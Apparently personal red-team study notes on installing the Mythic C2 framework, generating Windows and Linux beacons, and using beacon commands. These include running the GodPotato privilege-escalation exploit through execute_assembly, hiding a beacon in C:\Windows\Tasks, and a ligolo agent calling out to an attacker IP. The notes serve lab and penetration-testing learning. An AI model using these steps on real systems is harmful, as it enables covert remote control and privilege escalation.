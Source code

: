 
Mythic is a C2 server, used to deploy and control agents often used for AV evasion or persistence. 

## Installing Mythic

```bash
# Install docker
sudo apt update -y
sudo apt install docker -y
sudo apt install docker.io -y
sudo apt install docker-compose -y

# Git clone
git clone https://github.com/its-a-feature/Mythic
cd Mythic

# We need to make the binary, from the makefile in the Mythic directory.
sudo make
```

Now we can run Mythic for the first time
```bash
# Run Mythic for the first time
sudo -E ./mythic-cli start

# The config file is stored here if we want to modify it
vi Mythic/.env

# We need to install agents
# We'll start with Poseidon, used for Mac and Linux
sudo ./mythic-cli install github https://github.com/MythicAgents/Poseidon

# Install Apollo for use on Windows
sudo ./mythic-cli install github https://github.com/MythicAgents/Apollo

# We'll also need to install the http profile.
sudo ./mythic-cli install github https://github.com/MythicC2Profiles/http
```
The 'installed services' tab is important, we can see what all is installed.
![[Pasted image 20250526215523.png]]
## Web Interface
This is where can manage a lot of things. It's accessed at
`https://127.0.0.1:7443` by default
We'll find our admin credentials in the .env file
```bash
cat Mythic/.env | grep -i 'user'
cat Mythic/.env | grep -i 'password'

# If we wanted to, we could modify these, then restart Mythic
sudo ./mythic-cli restart
```

We can click 'Create Your First Payload'
![[Pasted image 20250526215029.png]]
We can leave most of this stuff unchanged, except maybe statically compile the payload.
Additionally, changing the callback details is necessary

![[Pasted image 20250526215701.png]]
We should be able to use our IP here, and port 80 is the default port. Even though we're not using HTTP/S, the traffic itself will be encrypted.
![[Pasted image 20250526215905.png]]
We can see our page on the 'payloads' page
![[Pasted image 20250526220223.png]]

We can just download and execute it. My first ever C2 beacon callback.
![[Pasted image 20250526224612.png]]


## Windows Beacon
Run it in a good directory (C:\Windows\Tasks), (C:\Users\Public). 

```powershell
Start-Process beacon.exe
```



# Useful Beacon Commands
## Register Assembly
We can put dotnet binaries into the agent. This is an opsec effective way of executing binares

N
```
register_assembly GodPotato-NET4.exe
execute_assembly -Assembly GodPotato-NET4.exe -Arguments "-cmd 'c:\users\public\taskmanager.exe'"
```

## Download/Upload
Self explanatory

## Run
Runs an executable. A command might look like
```
run -Executable C:\Windows\tasks\ligolo-windows-agent.exe -Arguments "-connect 10.10.16.157:443 -ignore-cert"
```
## References
https://redsiege.com/blog/2023/06/introduction-to-mythic-c2/

